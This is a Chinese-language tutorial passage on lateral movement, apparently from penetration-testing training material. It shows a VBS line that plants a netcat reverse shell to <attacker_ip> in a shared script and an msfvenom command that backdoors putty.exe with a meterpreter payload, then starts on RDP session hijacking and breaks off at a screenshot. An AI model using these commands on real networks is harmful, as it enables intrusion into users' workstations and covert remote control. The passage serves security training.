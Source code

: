 </div>

这种做法的基本原理是管理员可以在网络共享上维护一个可执行文件，并且用户可以执行它，而无需将应用程序复制或安装到每个用户的计算机上。如果作为攻击者，我们对这样的脚本或可执行文件拥有写权限，我们可以在其中植入后门，强制用户执行我们想要的任意有效载荷。

虽然脚本或可执行文件托管在服务器上，但当用户在他的工作站上打开快捷方式时，该可执行文件将从服务器复制到其 `%temp%` 文件夹，并在工作站上执行。因此，任何有效载荷将在最终用户工作站的上下文中运行（和登录的用户帐户）。

### .vbs 脚本后门

例如，如果共享资源是一个 VBS 脚本，我们可以在同一个共享中放置 nc64.exe 的副本，并在共享脚本中注入以下代码：

```vbs
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

这将把 nc64.exe 从共享复制到用户工作站的 `%tmp%` 目录，并在用户打开共享的 VBS 脚本时向攻击者发送一个反向 Shell。

### .exe 程序后门

如果共享文件是一个 Windows 二进制文件，比如 putty.exe，你可以从共享中下载它，并使用 msfvenom 向其中注入后门。该二进制文件仍然会像往常一样工作，但会悄悄执行额外的有效载荷。要创建一个带有后门的 putty.exe，我们可以使用以下命令：

```shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

生成的 puttyX.exe 将执行一个 reverse_tcp 的 meterpreter 有效载荷，而用户不会注意到。生成文件后，我们可以替换 Windows 共享上的可执行文件，并使用 Metasploit 中的 exploit/multi/handler 模块等待任何连接。

### RDP 劫持

当管理员使用远程桌面连接到一台机器，并关闭 RDP 客户端而不是注销时，他的会话将在服务器上无限期保持打开状态。如果您在 Windows Server 2016 及更早版本上拥有 SYSTEM 权限，您可以接管任何现有的 RDP 会话，而无需密码。

如果我们拥有管理员级别的访问权限，我们可以通过我们喜欢的任何方法获取 SYSTEM 权限。现在，我们将使用 psexec 来做到这一点。首先，让我们以管理员身份运行一个 cmd.exe：

<div style={{textAlign:'center'}}>

![以管理员权限运行 cmd](img/image_20231200-000015.png)
